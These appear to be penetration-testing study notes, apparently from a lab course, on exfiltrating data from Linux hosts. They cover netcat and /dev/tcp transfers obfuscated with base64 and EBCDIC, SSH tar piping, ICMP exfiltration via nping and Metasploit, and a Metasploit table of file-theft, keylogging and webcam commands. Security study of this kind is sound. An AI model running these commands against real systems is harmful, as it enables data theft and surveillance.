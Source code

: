 ```yaml
---
icon: linux
---
```


# Linux

## How to use Data Exfiltration

There are three primary use case scenarios of data exfiltration, including:

1. Exfiltrate data
2. Command and control communications.
3. Tunneling

Traditional Data Exfiltration

<figure><img src="../../../../.gitbook/assets/0c3438995ccff35a5589b9abd3703b14.png" alt=""><figcaption></figcaption></figure>

C2 Communications

<figure><img src="../../../../.gitbook/assets/49ad248f2506a5a749dbb70732c32072.png" alt=""><figcaption></figcaption></figure>

Tunneling

<figure><img src="../../../../.gitbook/assets/b4c99b2aba13eac24379fee2d20ffbf6.png" alt=""><figcaption></figcaption></figure>

## Python web server

Attacker computer

```bash
python -m SimpleHTTPServer 80 : use port that is not used  
```

```bash
python3 -m http.Server 80
```

Download from target

```bash
wget http://attackeraddress/filename   
```

## Metasploit commands

| Command                          | Function                                                 |
| -------------------------------- | -------------------------------------------------------- |
| `download /path/to/file`         | Downloads a specific file from the target                |
| `upload /local/file`             | Uploads a file to the target                             |
| `search -f *.docx`               | Finds files (e.g., `*.docx`, `*.xlsx`, `passwords.txt`)  |
| `cat /path/to/file`              | View file content inline                                 |
| `screenshot`                     | Take a screenshot of the user’s desktop                  |
| `keyscan_start` / `keyscan_dump` | Start and dump keystrokes                                |
| `record_mic` / `webcam_snap`     | Record audio or take webcam shots (if permissions allow) |

## TCP Exfiltration

Attacker Listener

<pre><code><strong>nc -lvnp -port- >  "filename we can set "
</strong></code></pre>

Sending to listener

```bash
tar zcf - directoryName | base 64 | dd conv=ebcdic> /dev/tcp/AttackerIP/Port
```

1️⃣ `tar zcf - directoryName`

* `tar` = archive utility.
* `z` = compress using gzip.
* `c` = create a new archive.
* `f -` = output to **stdout** (instead of a file).
* `directoryName` = the folder being archived.

**Effect:** This creates a compressed archive of `directoryName` and sends it **to stdout**.

***

2️⃣ `| base64`

* `base64` = encodes the binary tar.gz data into **ASCII text**.
* Why? Because sending raw binary over `/dev/tcp` might break if the network path expects text, and ASCII is safer.

***

3️⃣ `| dd conv=ebcdic`

* `dd` = low-level copy/convert tool.
* `conv=ebcdic` = converts the ASCII Base64 output to **EBCDIC encoding**.
* EBCDIC is an old IBM character encoding.
* Often seen in malware/obfuscation to bypass filters or legacy systems.

***

4️⃣ `> /dev/tcp/AttackerIP/Port`

* Bash allows redirecting output to **special TCP device**:
  * `/dev/tcp/IP/PORT` opens a TCP connection to that host and port.
* `>` = send all stdout (the EBCDIC-encoded Base64 archive) **directly to the attacker**.

{% hint style="warning" %}
Essenitly we zip the file we want to transfer.The data we transfer must be the directory
{% endhint %}

After recivied - Decode the data

```
dd conv=ascii if=FileName | base64 -d > FileName
```

Unzip

```bash
tar xvf fileName.tar
```

Examples

<figure><img src="../../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

## SSH Exfiltration

Default

```bash
tar cf - task5/ | ssh user@ip "cd /tmp/; tar xpf -"
```

Custom Port

```bash
tar cf - FolderName/ | ssh -p 2222  user@ip "cd /tmp/; tar xpf -"
```

#### Step-by-step explanation:

1. **`tar cf - task5/`**
   * `tar` is used for creating and extracting archives.
   * `c` → **create** a new archive.
   * `f -` → output to **stdout** (the `-` means “write to standard output” instead of a file).
   * `task5/` → the folder you want to archive.
   * **Result:** a tarball of `task5/` is sent to stdout.
2. **`|` (pipe)**
   * This takes the stdout from the `tar` command (the archive data) and sends it as stdin to the next command.
3. **`ssh thm@jump.thm.com "cd /tmp/; tar xpf -"`**
   * `ssh thm@jump.thm.com` → connects to the remote host `jump.thm.com` as user `thm`.
   * `"cd /tmp/; tar xpf -"` → this is the command executed on the remote machine:
     * `cd /tmp/` → change directory to `/tmp/`.
     * `tar xpf -` → extract the archive received from stdin (`-` means stdin):
       * `x` → extract.
       * `p` → **preserve permissions**.
       * `f -` → read archive from stdin.

## ICMP Exfiltration

1\) Attacker setup  to recive packets

```
msf auxiliary icmp_exfil
```

2\) Upload nping binaries to victim

```
/usr/bin/nping
```

python server,wget command

next give perms&#x20;

3\) On victim machine sending data to icmp\_exfil

<pre class="language-bash"><code class="lang-bash"><strong>./nping --icmp -c 1 attackerip --data-string "filename.txt"
</strong></code></pre>

`-c` → how many ICMP packets (or TCP/UDP depending on mode) to send.Just how many times we want to send the request default is 10

4\) Tell metasploit to stop reciveing files

```
nping --icmp -c 1 attackerip --data-string "EOF"
```

## &#x20;Icmpdoor

{% embed url="https://github.com/krabelize/icmpdoor" %}

<figure><img src="../../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>
